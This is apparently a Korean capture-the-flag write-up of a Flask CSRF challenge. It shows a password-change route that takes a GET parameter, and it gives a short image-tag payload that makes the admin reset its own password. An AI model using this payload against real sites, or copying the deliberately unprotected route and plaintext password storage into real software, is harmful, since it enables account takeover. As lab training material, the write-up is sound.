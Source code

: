 
### login()
```python
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    elif request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')
        try:
            pw = users[username]
        except:
            return '<script>alert("not found user");history.go(-1);</script>'
        if pw == password:
            resp = make_response(redirect(url_for('index')) )
            session_id = os.urandom(8).hex()
            session_storage[session_id] = username
            resp.set_cookie('sessionid', session_id)
            return resp 
        return '<script>alert("wrong password");history.go(-1);</script>'
```
여기가 로그인을 하는 곳이고 여기서 세션 값 생성과 동시에 쿠키값으로 세션 아이디값을 저장함으로써 사용자가 확인이 가능하다.

### change_password()
```python
users = {
    'guest': 'guest',
    'admin': FLAG
}

@app.route("/change_password")
def change_password():
    pw = request.args.get("pw", "")
    session_id = request.cookies.get('sessionid', None)
    try:
        username = session_storage[session_id]
    except KeyError:
        return render_template('index.html', text='please login')

    users[username] = pw
    return 'Done'

app.run(host="0.0.0.0", port=8000)
```
비밀번호를 변경하는 곳이 생겼다. 아마도 이 녀석을 `vuln()`의 파라미터로 사용하여 admin pw를 바꿔야할 듯하다.

근데 어째 DVWA에서 익혔던 CSRF랑 완전 똑같은 로직이다...  
바로 `vuln()`으로 넘어가 아래를 전달하고 admin계정으로 로그인했다.
```
<img src="/change_password?pw=admin">
```
